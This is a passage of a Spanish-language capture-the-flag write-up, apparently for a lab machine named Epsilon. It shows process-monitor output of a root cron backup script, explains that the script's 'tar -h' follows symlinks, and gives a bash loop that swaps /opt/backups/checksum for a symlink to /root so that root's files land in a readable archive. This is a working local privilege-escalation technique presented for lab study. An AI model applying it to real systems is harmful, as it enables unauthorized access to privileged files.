 ```SHELL
2022/09/11 20:12:01 CMD: UID=0    PID=5515   | /bin/bash /usr/bin/backup.sh 
2022/09/11 20:12:01 CMD: UID=0    PID=5515   | /bin/sh -c /usr/bin/backup.sh 
2022/09/11 20:12:01 CMD: UID=0    PID=5517   | 
2022/09/11 20:12:01 CMD: UID=0    PID=5519   | /usr/bin/tar -cvf /opt/backups/700198870.tar /var/www/app/ 
2022/09/11 20:12:01 CMD: UID=0    PID=5521   | /bin/bash /usr/bin/backup.sh 
2022/09/11 20:12:01 CMD: UID=0    PID=5520   | sha1sum /opt/backups/700198870.tar 
2022/09/11 20:12:01 CMD: UID=0    PID=5522   | sleep 5 
2022/09/11 20:12:06 CMD: UID=???  PID=5523   | ???
2022/09/11 20:12:06 CMD: UID=0    PID=5524   | /usr/bin/tar -chvf /var/backups/web_backups/710549490.tar /opt/backups/checksum /opt/backups/700198870.tar 
```
Al revisar el archivo tenemos permisos de lectura. Entonces sabemos lo que hace:
* Borra los archivos del directorio `/opt/backups/`
* Comprime el directorio `/var/www/app` con tar y el archivo lo guarda en el directorio `opt/backups/`
* Obtiene el checksum del archivo y lo guarda en `/opt/backups/checksum`
* Comprime en un archivo tar los dos archivos creados anteriormente y lo guarda en el directorio `/var/backups/web_backups/`
* Borra los archivos del directorio `/opt/backups/`
```BASH
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```
Del contenido lo más destacado es la opción -c`h`vf utilizada en el segundo tar. Esta opción lo que hace es incluir los archivos a los que apunta un enlace simbólico, con esto es posible obtener los archivos del directorio `/root`.

Como tenemos permisos de escritura en el directorio `/opt/backups/`, podemos reemplazar un archivo de los que se comprimen en el segundo tar, por un enlace simbólico que apunte al directorio `/root`. Es posible realizarlo maunalmente esperando a que se creen los archivos, pero en esta ocasión es mejor realizar un script que este esperando la existencia del archivo `/opt/backups/checksum`, una vez detectado el archivo lo elimina y procede a realizar un enlace simbólico hacia el directorio `/root`.
```BASH
#!/bin/bash
flag=true
echo "[+] Waiting cron"
while $flag; do
        if [[ -e "/opt/backups/checksum" ]]; then
                echo "[+] The file exists"
                rm -f /opt/backups/checksum
                echo "[+] File deleted"
                ln -s /root /opt/backups/checksum
                echo "[+] Symlink created"
                flag=false
        fi
done
```
Después de ejecutar el script observamos un tar de mayor tamaño que los anteriores.
```SHELL 
tom@epsilon:/tmp$ ls -la /var/backups/web_backups/               
total 80420                    
drwxr-xr-x 2 root root     4096 Sep 15 06:07 .                         
drwxr-xr-x 3 root root     4096 Sep 15 04:58 ..                          
-rw-r--r-- 1 root root  1003520 Sep 15 06:05 323888649.tar               
```